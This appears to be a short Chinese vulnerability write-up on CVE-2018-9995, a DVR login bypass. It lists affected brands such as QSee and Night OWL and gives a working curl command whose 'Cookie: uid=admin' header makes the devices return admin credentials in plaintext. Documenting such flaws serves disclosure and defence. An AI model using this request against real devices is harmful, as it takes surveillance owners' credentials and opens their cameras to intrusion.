

DVR 登录绕过漏洞 CVE-2018-9995¶
漏洞描述¶
DVR，全称为Digital Video Recorder(硬盘录像机)，即数字视频录像机。最初由阿根廷研究员发现，通过使用“Cookie： uid = admin”的Cookie标头来访问特定DVR的控制面板，DVR将以明文形式响应设备的管理员凭证。
漏洞影响¶
Novo
CeNova
QSee
Pulnix
XVR 5 in 1 (title: "XVR Login")
Securus, - Security. Never Compromise !! -
Night OWL
DVR Login
HVR Login
MDVR Login
漏洞复现¶
使用curl命令获得账号密码
curl "http://xxx.xxx.xxx.xxx/device.rsp?opt=user&cmd=list" -H "Cookie: uid=admin"
